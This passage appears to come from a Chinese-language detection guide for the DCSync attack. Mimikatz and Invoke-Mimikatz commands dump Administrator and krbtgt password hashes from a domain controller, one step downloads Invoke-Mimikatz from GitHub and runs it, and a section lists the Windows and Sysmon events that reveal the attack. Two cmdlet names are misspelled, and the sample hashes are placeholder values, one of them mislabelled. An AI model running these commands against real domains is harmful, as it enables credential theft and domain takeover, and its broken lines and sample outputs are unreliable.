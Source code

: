    ```cmd
   mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:abcc.org /user:Administrator /csv" exit
   ```
   - 输出示例：
     ```
     User,Domain,NTLM
     Administrator,ABCC,31d6cfe0d16ae931b73c59d7e0c089c0
     ```
3. **使用PowerShell Invoke-Mimikatz导出krbtgt哈希**：
   ```powershell
   Ivoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt /domain:abcc.org"'
   ```
   - 输出示例：
     ```
     * Username : krbtgt
     * Domain   : ABCC
     * NTLM     : aad3b435b51404eeaad3b435b51404ee
     ```

## 检测日志

### 数据来源
- **Windows安全日志**（域控制器）：
  - 事件ID4662：对象操作（捕获复制权限访问）
  - 事件ID4688：进程创建（mimikatz.exe或powershell.exe）
  - 事件ID4673：敏感权限调用（如SeDebugPrivilege）
- **Sysmon日志**：
  - 事件ID1：进程创建（mimikatz.exe、powershell.exe）
  - 事件ID3：网络连接（与域控制器389/TCP、445/TCP的通信）
- **网络流量**：
  - 捕获MS-DRSR协议流量（LDAP 389/TCP、RPC 135/TCP）
  - 监控异常的GetNCChanges请求
- **PowerShell日志**：
  - 事件ID4104：脚本块记录（Invoke-Mimikatz执行）

## 测试复现

### 环境配置
- 域控制器：Windows Server 2019（dc.abcc.org）
- 域内主机：Windows 10
- 工具：Mimikatz、Invoke-Mimikatz
- 用户：Administrator（Domain Admins成员）
- 域：abcc.org

### 复现步骤
1. **本地运行Mimikatz**（域内主机）：
   ```cmd
   cd C:\Tools\mimikatz
   mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:abcc.org /user:krbtgt /csv" exit
   ```
   - 输出：
     ```
     User,Domain,NTLM
     krbtgt,ABCC,aad3b435b51404eeaad3b435b51404ee
     ```
2. **远程运行Invoke-Mimikatz**（域内主机）：
   ```powershell
   Ivoke-WebRequest -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 -OutFile C:\Tools\Invoke-Mimikatz.ps1
   Import-Module C:\Tools\Invoke-Mimikatz.ps1
   Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt /domain:abcc.org"'
   ```
   - 输出：